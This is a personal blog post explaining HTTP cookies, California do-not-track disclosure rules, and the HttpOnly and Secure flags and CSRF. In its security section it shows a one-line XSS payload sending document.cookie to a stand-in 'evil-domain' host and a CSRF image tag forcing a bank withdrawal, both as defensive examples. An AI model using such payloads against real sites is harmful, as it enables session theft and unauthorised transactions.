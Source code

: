 ```yaml
---
id: 385
title: Cookies Security
#date: 2018-08-27T17:44:07+00:00
author: Luhao
layout: post
#guid: http://flywithfan.net/?p=385
#permalink: /web/385/
categories:
  - Security
tags:
  - security
  - browser
---
```


Honestly, I was curious about the &#8220;cookie&#8221; promopt all the time but I didn&#8217;t really care about it until I came across the [The California Internet Privacy Bill](https://www.pillsburylaw.com/en/news-and-insights/california-internet-privacy-bill-signed-by-governor.html), then I knew why I often saw these on all kinds of website, but strangely, I have never seen this thing on chinese websites. Maybe we don&#8217;t respect the privacy of others, haha. But it really enlightened me on the thoughts about the privacy and the concerns about the security of cookies.

If any consumers of your web service are located in the state of California, you must:

- Explain &#8220;how you deal with&#8221; do-not-track requests.
- Make that information available in a conspicuous way from your homepage. (A text link to a privacy policy will do the trick)

Like this:

![](/assets/img/uploads/2018/cookies-e1535360025494.png)

In case you don&#8217;t know:

An HTTP cookie is a small piece of data that a server sends to the user&#8217;s web browser. The browser may store it and send it back with the next request to the same server.

Cookies are mainly used for three purposes:

- **Session management**

  Logins, shopping carts, game scores, or anything else the server should remember</p>

- **Personalization**

  User preferences, themes, and other settings

- **Tracking**

  Recording and analyzing user behavior

Cookies are sent with **every** request, so they can worsen performance (especially for mobile data connections). Modern APIs are recommended for client storage via Web storage API (**localStorage** and **sessionStorage**) and **IndexedDB**.

Cookies set:

<pre><code class="">HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
...
</code></pre>

Now, with every new request to the server, all previously stored cookies are sent to the server using the Cookie header.

<pre><code class="">GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
</code></pre>

## Security

**HttpOnly**

To prevent cross-site scripting (XSS) attacks, **HttpOnly** cookies are **inaccessible** to JavaScript&#8217;s Document.cookie API. Instead, they are only sent to the server.

An example of exploiting XSS vulnerabilites:

<pre><code class="language-javascript ">(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
</code></pre>

The **HttpOnly** cookie attribute can help by preventing access to cookie value through JavaScript.

**Secure**

A secure cookie is only sent to the server with a encrypted request over the **HTTPS** protocol. Even with Secure, sensitive information should never be stored in cookies, as they are inherently insecure and this flag can&#8217;t offer real protection.

So, we are supposed to set cookies like this:

<pre><code class="">Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
</code></pre>

**Cross-site request forgery (CSRF)**

There is an good example of explainning what is CSRF on [Wikipedia](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery).

Someone sent you a malicious link like this,

<pre><code class="">&lt;img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory"&gt;
</code></pre>

If you are logged into your bank account and your cookies are still valid (and there is no other validation), you will transfer money as soon as you load the HTML that contains this image!

There are a few techniques that are used to prevent this from happening:

- input filtering
- confirmation required for any sensitive action
- short lifetime of cookies for sensitive actions

For more prevention tips, see the [OWASP CSRF prevention cheat sheet](<https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet>).

---

1.[Cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
